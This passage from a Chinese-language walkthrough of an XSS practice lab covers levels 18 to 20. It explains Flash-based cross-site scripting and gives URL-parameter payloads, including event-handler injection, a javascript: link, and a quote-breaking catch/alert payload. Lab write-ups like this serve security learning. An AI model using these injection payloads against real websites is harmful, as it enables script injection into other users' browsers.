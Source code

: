 ```javascript
?arg02=" ' sRc DaTa OnFocus OnmOuseOver OnMouseDoWn P <sCriPt> <a hReF=javascript:alert()>;
```

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728477114594-28fd8c79-9a3f-48a8-a95f-f66df31f1613.png)

<font style="color:rgb(51, 51, 51);">也是只搞了个html实体化函数，也没过滤啥，感觉跟上关一样，用事件触发属性即可（如onmouse系列、onfocus、onclick等）直接上payload</font>

```javascript
?arg02= onmousedown=alert()
```

 再点一下embed标签区域  

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728477149096-8a48116c-ae58-47f8-bfcc-b7f548fb82b1.png)

  **本关小结**：  与上一关类似

# <font style="color:rgb(51, 51, 51);">level 19</font>
![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728477196190-25ab0387-b687-4040-8abc-9b8e209fe7b8.png)

<font style="color:rgb(51, 51, 51);">网页源码差不多，也就是只有swf文件不同的差别，直接上payload</font>

```javascript
?arg02= onmouseup=alert()
```

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728477210221-82fa2a70-4d00-4be9-9474-73e270fe4adc.png)

这关用到的是Flash Xss注入，可参考

[Level 19 Flash XSS](https://blog.csdn.net/u014029795/article/details/103213877)<font style="color:rgb(51, 51, 51);">与</font>[Flash XSS 漏洞详解](https://blog.csdn.net/weixin_30702413/article/details/99326627)

<font style="color:rgb(51, 51, 51);">还有实体化函数在无法闭合，那就利用其他的，其实就是往Flash里面插入一段js代码，然后手动执行嘛，构造payload </font>

```javascript
?arg01=version&arg02=<a href="javascript:alert()">here</a>
```

 至于为啥arg01得传version，那就得去swf反编译才能知道了  

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728477288938-2eebaeaa-10ca-4ca2-864c-0b6ba9b6165c.png)

**本关小结**：Flash xss了解一下就行，现在许多浏览器都用不上flash插件了 ，打 4399 倒是得用这个插件哈哈哈

# <font style="color:rgb(51, 51, 51);">level 20</font>
![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728477391621-ea59b8fb-3493-4278-b84d-27433e9c2f0e.png)

 这关也是有双引号，不想反编译，直接参考大佬的文章  

[Level 20 Flash XSS](https://blog.csdn.net/u014029795/article/details/103217680)

 直接构建payload  

```javascript
?arg01=id&arg02=xss\"))}catch(e){alert(1)}//%26width=123%26height=123
```

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728477445662-fab3a30f-3bea-4148-9277-042bcfaf26eb.png)

本关小结：很难，难遇到

从 17 关开始用到 flash 插件，现在浏览器基本已经不用了，所以说这后面几关了解了解

